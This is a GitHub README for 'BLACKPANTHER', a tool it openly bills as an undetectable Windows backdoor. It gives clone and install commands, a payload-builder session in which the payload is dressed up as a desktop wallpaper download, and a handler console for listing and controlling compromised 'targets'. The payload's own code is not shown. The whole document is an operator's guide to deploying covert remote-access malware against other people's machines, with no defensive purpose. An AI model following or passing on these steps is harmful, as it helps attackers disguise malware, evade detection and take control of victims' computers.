 ## BLACKPANTHER

- Windows undetectable Backdoor

![Logo](./public/assets/bg.jpg)


## Installation

Install blackpanther with git

```bash
git clone https://github.com/madhanmaaz/blackpanther
```
```bash
cd blackpanther
```
Install dependencies
```bash
npm install
```
```bash
pip install -r requirements.txt
```

## Usage

- !!!!!!! `help` commnad to navigate all the options and settings

##### TO CREATE PAYLOAD
```bash
python bp-create.py
```
```

 ▄▄▄▄    ██▓    ▄▄▄       ▄████▄   ██ ▄█▀ ██▓███   ▄▄▄       ███▄    █ ▄▄▄█████▓ ██░ ██ ▓█████  ██▀███  
▓█████▄ ▓██▒   ▒████▄    ▒██▀ ▀█   ██▄█▒ ▓██░  ██▒▒████▄     ██ ▀█   █ ▓  ██▒ ▓▒▓██░ ██▒▓█   ▀ ▓██ ▒ ██▒
▒██▒ ▄██▒██░   ▒██  ▀█▄  ▒▓█    ▄ ▓███▄░ ▓██░ ██▓▒▒██  ▀█▄  ▓██  ▀█ ██▒▒ ▓██░ ▒░▒██▀▀██░▒███   ▓██ ░▄█ ▒
▒██░█▀  ▒██░   ░██▄▄▄▄██ ▒▓▓▄ ▄██▒▓██ █▄ ▒██▄█▓▒ ▒░██▄▄▄▄██ ▓██▒  ▐▌██▒░ ▓██▓ ░ ░▓█ ░██ ▒▓█  ▄ ▒██▀▀█▄  
░▓█  ▀█▓░██████▒▓█   ▓██▒▒ ▓███▀ ░▒██▒ █▄▒██▒ ░  ░ ▓█   ▓██▒▒██░   ▓██░  ▒██▒ ░ ░▓█▒░██▓░▒████▒░██▓ ▒██▒
░▒▓███▀▒░ ▒░▓  ░▒▒   ▓▒█░░ ░▒ ▒  ░▒ ▒▒ ▓▒▒▓▒░ ░  ░ ▒▒   ▓▒█░░ ▒░   ▒ ▒   ▒ ░░    ▒ ░░▒░▒░░ ▒░ ░░ ▒▓ ░▒▓░
▒░▒   ░ ░ ░ ▒  ░ ▒   ▒▒ ░  ░  ▒   ░ ░▒ ▒░░▒ ░       ▒   ▒▒ ░░ ░░   ░ ▒░    ░     ▒ ░▒░ ░ ░ ░  ░  ░▒ ░ ▒░
 ░    ░   ░ ░    ░   ▒   ░        ░ ░░ ░ ░░         ░   ▒      ░   ░ ░   ░       ░  ░░ ░   ░     ░░   ░ 
 ░          ░  ░     ░  ░░ ░      ░  ░                  ░  ░         ░           ░  ░  ░   ░  ░   ░     
      ░                  ░                                                           [CREATOR]
                                                                                     - Designed by madhan
                                                                                     - https://github.com/madhanmaaz 
                                                                                     - https://madhanmaaz.netlify.app

[CREATE]>
```

- commands
```bash
> help        list out help menu
> payloads    listout payloads
> goto <ID>   navigate into payload
> exit        exit app
```

- example
```python
[CREATE]> goto 0
+=== CPP-PAYLOAD PAYLOAD ===+
[CREATE/cpp-payload]> set origin https://example.com
[CREATE/cpp-payload]> set mediaurl https://wallpaper.com/a.jpg
[CREATE/cpp-payload]> set medianame wall.jpg
[CREATE/cpp-payload]> set filename desktopwallpaper
[CREATE/cpp-payload]> create -o
```

- To run server
```bash
npm run start
```

- Run handler
```bash
python bp-handler.py
```
- To boot interface
```bash

 ▄▄▄▄    ██▓    ▄▄▄       ▄████▄   ██ ▄█▀ ██▓███   ▄▄▄       ███▄    █ ▄▄▄█████▓ ██░ ██ ▓█████  ██▀███
▓█████▄ ▓██▒   ▒████▄    ▒██▀ ▀█   ██▄█▒ ▓██░  ██▒▒████▄     ██ ▀█   █ ▓  ██▒ ▓▒▓██░ ██▒▓█   ▀ ▓██ ▒ ██▒
▒██▒ ▄██▒██░   ▒██  ▀█▄  ▒▓█    ▄ ▓███▄░ ▓██░ ██▓▒▒██  ▀█▄  ▓██  ▀█ ██▒▒ ▓██░ ▒░▒██▀▀██░▒███   ▓██ ░▄█ ▒
▒██░█▀  ▒██░   ░██▄▄▄▄██ ▒▓▓▄ ▄██▒▓██ █▄ ▒██▄█▓▒ ▒░██▄▄▄▄██ ▓██▒  ▐▌██▒░ ▓██▓ ░ ░▓█ ░██ ▒▓█  ▄ ▒██▀▀█▄
░▓█  ▀█▓░██████▒▓█   ▓██▒▒ ▓███▀ ░▒██▒ █▄▒██▒ ░  ░ ▓█   ▓██▒▒██░   ▓██░  ▒██▒ ░ ░▓█▒░██▓░▒████▒░██▓ ▒██▒
░▒▓███▀▒░ ▒░▓  ░▒▒   ▓▒█░░ ░▒ ▒  ░▒ ▒▒ ▓▒▒▓▒░ ░  ░ ▒▒   ▓▒█░░ ▒░   ▒ ▒   ▒ ░░    ▒ ░░▒░▒░░ ▒░ ░░ ▒▓ ░▒▓░
▒░▒   ░ ░ ░ ▒  ░ ▒   ▒▒ ░  ░  ▒   ░ ░▒ ▒░░▒ ░       ▒   ▒▒ ░░ ░░   ░ ▒░    ░     ▒ ░▒░ ░ ░ ░  ░  ░▒ ░ ▒░
 ░    ░   ░ ░    ░   ▒   ░        ░ ░░ ░ ░░         ░   ▒      ░   ░ ░   ░       ░  ░░ ░   ░     ░░   ░
 ░          ░  ░     ░  ░░ ░      ░  ░                  ░  ░         ░           ░  ░  ░   ░  ░   ░
      ░                  ░                                                           [HANDLER]
                                                                                     - Designed by madhan
                                                                                     - https://github.com/madhanmaaz
                                                                                     - https://madhanmaaz.netlify.app

> help
=== MENU ===
> interface   boot interface
> stop        stop the server
> targets     show all targets
> goto <id>   go into the target
> help        help menu
> ^C          exit

> interface
```
- Now you can handle the connections from web interface
- otherwise you want to use terminal version. `help` command to navigate.
## Screenshots

![App Screenshot](./scr/scr-2.png)
![App Screenshot](./scr/scr-1.png)
![App Screenshot](./scr/scr-3.png)
